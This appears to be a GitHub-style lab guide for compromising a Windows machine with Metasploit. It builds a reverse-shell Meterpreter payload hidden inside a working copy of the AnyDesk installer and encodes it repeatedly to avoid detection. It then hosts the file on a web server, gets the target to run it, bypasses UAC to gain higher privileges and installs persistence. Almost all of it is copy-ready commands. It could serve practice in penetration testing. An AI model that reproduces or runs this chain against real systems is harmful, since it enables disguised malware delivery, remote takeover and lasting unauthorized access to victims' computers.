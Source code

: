 Instructions to Run Metasploit Exploitation
1.Environment Setup

    Attacker Machine: Kali Linux (with Metasploit installed)

    Target Machine: Windows (firewall & antivirus disabled for testing)

    Ensure both machines are on the same network/subnet.

    Note down the Kali IP address using:

    ip addr show

2.Generate a Payload with msfvenom

On Kali, run:

msfvenom -p windows/meterpreter/reverse_tcp \
lhost=<Kali_IP> lport=6666 \
-x /home/kali/Downloads/AnyDesk.exe -k \
-e x86/shikata_ga_nai -i 100 -f exe \
-o /var/www/html/AnyDesk.exe

Explanation:

    -p: Payload type

    lhost: Attacker IP

    lport: Listening port

    -x: Use an existing EXE as a template

    -k: Keep original executable functionality

    -e: Encoder

    -i: Encoding iterations

    -f exe: Output as Windows executable

    -o: Output file path

3.Host the Payload via Apache

Start Apache web server:

sudo systemctl start apache2

The payload will be available at:

http://<Kali_IP>/AnyDesk.exe

4.Deliver the Payload

On the Windows target:

    Open a browser.

    Visit http://<Kali_IP>/AnyDesk.exe.

    Download and run the file.

5.Start Metasploit Listener

On Kali:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Kali_IP>
set lport 6666
exploit

    Wait for the target to execute the file.

    Meterpreter session should open.

6.Privilege Escalation

Inside Metasploit:

use exploit/windows/local/bypassuac_fodhelper
set payload windows/meterpreter/reverse_tcp
set lhost <Kali_IP>
set lport 6666
set session 1
run

7.Persistence

Inside Metasploit:

use exploit/windows/local/persistence
set payload windows/meterpreter/reverse_tcp
set lhost <Kali_IP>
set lport 6666
set session 2
run



8.Automating with Resource File

Create test.rc file:

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Kali_IP>
set lport 6666
exploit

Run with:

msfconsole -r test.rc

